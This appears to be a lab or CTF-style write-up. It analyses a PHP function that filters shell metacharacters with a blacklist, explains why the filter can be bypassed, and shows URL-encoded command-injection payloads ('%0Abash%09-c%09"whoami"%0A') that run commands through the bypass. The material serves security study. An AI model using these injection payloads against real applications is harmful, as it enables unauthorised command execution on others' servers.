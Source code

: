 ```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```
- This function only checks for a **limited set of characters** using `strpos()`, which:
    - Does not catch characters like tabs (`\t`), newlines (`\n`), or URL-encoded input.
    - Can be bypassed with payloads that do not use the exact characters in your blacklist.
Bottom line Blacklisting is never a reliable way to sanitize shell arguments.

#### Command injection: testing

by trial and error, i concluded in this command injection type using url encoding:
`%09` -> tab (because %20 for space did not work)
`%OA` -> newline

below some examples of command injection being possible:
```shell
%0Abash%09-c%09"whoami"%0A
```
![Pasted image 20250527204845](MediaFiles/Pasted%20image%2020250527204845.png)
```shell
%0Abash%09-c%09"dir"%0A
```
![Pasted image 20250527204916](MediaFiles/Pasted%20image%2020250527204916.png)
